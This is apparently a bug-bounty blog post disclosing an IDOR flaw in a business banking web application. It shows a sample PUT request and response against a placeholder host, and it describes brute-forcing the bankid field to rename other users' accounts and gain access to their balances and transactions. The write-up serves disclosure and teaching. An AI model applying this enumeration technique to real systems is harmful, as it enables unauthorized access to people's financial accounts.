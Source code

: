 ```yaml
---
title: "Insecure Direct Object References (IDOR) Exploit Enables Unauthorized Access to Linked Bank Accounts"
layout: post
date: 2022-10-10 12:00
tag:
- Account Takeover
- Broken Access Control
- IDOR
category: blog
author: Naveen
description: Exploiting an Insecure Direct Object References (IDOR) vulnerability to gain control over other users' linked bank accounts.

---
```


![preview](/assets/images/blogs/IDOR/access-control.svg)

## Target Information
The target is a web application designed to facilitate invoice tracking, bill payment, and other transactions for organizations. It functions as a business banking application.

## Reconnaissance
Upon examining the application's features, it was determined that the application is susceptible to an Insecure Direct Object References (IDOR) vulnerability. The vulnerability arises due to the application's reliance on user-provided input in the URL and JSON objects within the request body to perform actions on its APIs.

## Exploitation
Several endpoints were exploited to gain unauthorized access to other organizations' users' invoices, transaction details, and bills.

A noteworthy feature of the application allows users to link their bank accounts within the application. Upon merging accounts, the application generates a virtual bank account, such as the "ABC Virtual Bank Account" from "ABC Internet Bank."

To facilitate easy identification of bank account details, the application offers a feature allowing users to rename their accounts with nicknames. The following request demonstrates this functionality:

## Request
```http
PUT /connected_banking/12345 HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
	"bankid": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000
}
```

## Response
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
	"abc_account_id": 12345,
	"account_nickname": "thevillagehacker",
	"account_id": 1111,
	"company_id": 0000,
	"current_balance": 10000.00
}
```
The above request illustrates that the application utilizes the bank ID from the URL and the JSON object in the request body. By brute-forcing the `bankid`, I was able to change the nicknames of other users' bank accounts.

The IDOR vulnerability did not end there. Whenever I modified the nickname of users' bank accounts, those accounts became linked to my "ABC Virtual Bank Account." Consequently, I gained access to the bank account details, balances, transactions, and other information of these users.

Thank you for reading.

Follow me on Twitter: [thevillagehacker](https://twitter.com/thevillagehackr)